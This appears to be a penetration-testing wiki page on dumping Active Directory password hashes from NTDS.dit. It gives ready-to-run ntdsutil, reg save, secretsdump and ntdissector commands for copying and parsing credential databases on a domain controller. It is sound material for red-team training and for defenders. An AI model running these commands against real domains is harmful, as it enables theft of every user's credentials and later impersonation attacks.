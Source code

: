 # NTDS Secret Extraction

## Theory

### NTDS Secret

NTDS (Windows NT Directory Services) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The NTDS.dit file is a database that stores the Active Directory data (including users, groups, security descriptors and password hashes). This file is stored on the domain controllers.

Once the secrets are extracted, they can be used for various attacks: [credential spraying](https://www.thehacker.recipes/a-d/movement/credentials/bruteforcing/password-spraying), [stuffing](https://www.thehacker.recipes/a-d/movement/credentials/bruteforcing/stuffing), [shuffling](https://www.thehacker.recipes/a-d/movement/credentials/shuffling), [cracking](https://www.thehacker.recipes/a-d/movement/credentials/cracking), [pass-the-hash](https://www.thehacker.recipes/a-d/movement/ntlm/pth), [overpass-the-hash](https://www.thehacker.recipes/a-d/movement/kerberos/ptk) or [silver or golden tickets](https://www.thehacker.recipes/a-d/movement/kerberos/forged-tickets).



***

## Practical

### Exfiltration

Since the NTDS.dit is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file. In order to exfiltrate it from a live domain controller and extract password hashes from it, many techniques can be used.

Just like with [SAM & LSA secrets](https://www.thehacker.recipes/a-d/movement/credentials/dumping/sam-and-lsa-secrets), the SYSTEM registry hive contains enough info to decrypt the NTDS.dit data. The hive file (`\system32\config\system`) can either be exfiltrated the same way the NTDS.dit file is, or it can be exported with `reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'`.

### AD Maintenance (NTDSUtil)

NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`.

```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

* `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
* `C:\Windows\Temp\NTDS\registry\SYSTEM`

{% hint style="info" %}
If the NTDS database is very large (several gigabytes), the generation of a defragmented backup with ntdsutil consumes a lot of CPU and disk resources on the server, which can cause slowdowns and other undesirable effects on the domain controller.
{% endhint %}

### Secrets Dump

Once the required files are exfiltrated, they can be parsed by tools like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python, part of [Impacket](https://github.com/SecureAuthCorp/impacket/)) or [gosecretsdump](https://github.com/c-sto/gosecretsdump) (Go, faster for big files).

```
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```

#### [Impackt's Secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

```
./secretsdump.py -ntds ~/Downloads/regbackup/ntds.dit -system ~/Downloads/regback/SYSTEM LOCAL
```

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>Impacket's Secretsdump Output</p></figcaption></figure>

#### [Ntdissector](https://github.com/synacktiv/ntdissector)

```
# Dump users, groups and domain backup keys
ntdissector -ntds NTDS.dit -system SYSTEM -outputdir /tmp/ntdissector/ -ts -f user,group,secret

# Dump all records from the database
ntdissector -ntds NTDS.dit -system SYSTEM -outputdir /tmp/ntdissector/ -ts -f all
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>Ntdissector's Output</p></figcaption></figure>

***

## REFERENCES

* [https://www.thehacker.recipes/a-d/movement/credentials/dumping/ntds](https://www.thehacker.recipes/a-d/movement/credentials/dumping/ntds)
* [https://www.hackingarticles.in/credential-dumping-ntds-dit/](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
* [https://github.com/synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)
* [https://github.com/fortra/impacket/blob/master/examples/secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

